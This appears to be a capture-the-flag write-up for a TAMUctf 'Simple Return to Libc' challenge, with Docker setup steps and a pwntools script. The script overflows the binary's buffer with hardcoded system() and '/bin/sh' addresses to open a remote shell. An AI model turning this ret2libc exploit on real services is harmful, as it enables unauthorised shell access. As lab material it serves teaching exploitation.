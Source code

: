 # Simple Return to Libc

## Challenge
`nc pwn.tamuctf.com 4324`

## Setup

Build the docker container `docker build -t pwn4 .` and run it `docker run pwn4`

## Solution
Find the address of `system()` and `/bin/sh`. Both are static since PIE is not enabled. Payload must have a `/` in it in order to work correctly.  
Below is an example solution script:  
```python
from pwn import *


#p = process('./pwn4')
p = remote('172.17.0.2', 4324)

system = 0x80483f0
binsh = 0x804a034

payload = '/'*37
payload += p32(system)
payload += p32(0xdeadbeef)
payload += p32(binsh)

f = open('out', 'wb')
f.write(payload +'\n')
f.close()

p.send(payload + '\n')
p.interactive()
```
